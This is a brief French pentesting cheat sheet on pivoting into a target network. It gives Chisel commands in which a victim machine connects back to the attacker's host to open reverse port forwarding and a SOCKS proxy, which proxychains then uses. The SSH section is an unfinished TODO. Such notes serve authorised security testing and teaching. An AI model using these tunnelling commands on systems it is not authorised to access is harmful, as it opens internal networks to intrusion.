 # Proxychain

> Pivoter dans le réseau via la machine hôte.
>
> Permet de faciliter les tests (e.g. accès à l'interface graphique pour un service web) et de donner accès à ses propres outils (si pas présent sur la cible par exemple).



### 1. Chisel

- **Port forwarding (accéder à un service ne tournant qu'en local sur une machine cible) avec l'exécutable [chisel][1] **:

  - Hôte :

    ```bash
    $ ./chisel server -p 9999 --reverse [open]
    ```

  - Cible :

    ```bash
    $ ./chisel client [IP_HOTE]:9999 R:127.0.0.1:9998:[IP_A_RENDRE_ACCESSIBLE]:[PORT_A_RENDRE_ACCESSIBLE]
    ```

    Explication  :

    - Le serveur (*machine de l'attaquant*) ouvre un port 
    - Le client (*machine victime*) s'y connecte
    - Le client créer une règle de port forwarding vers l'ip remote (ici, il dit au serveur qu'il est possible d'accéder à remote_ip:remote_port en requêtant sur 127.0.0.1:9998)

- **Proxy socks pour accéder à au réseau de la machine cible et à l'ensemble de ses ports notamment** (on prend la place de la machine) :

  - Hôte :

    ```bash
    $ ./chisel server -p 8000 --reverse
    ```

  - Cible :

    ```powershell
    .\chisel.exe client <IP_HOTE>:8000 R:1080:socks
    ```

  - Hôte :

    ```bash
    # Mettre la ligne suivante à la fin du fichier /etc/proxychains4
    # socks5  127.0.0.1 1080
    $ proxychains <COMMAND>
    ```

### 2. SSH

**TODO**



## References

[1]: https://www.youtube.com/watch?v=Yp4oxoQIBAM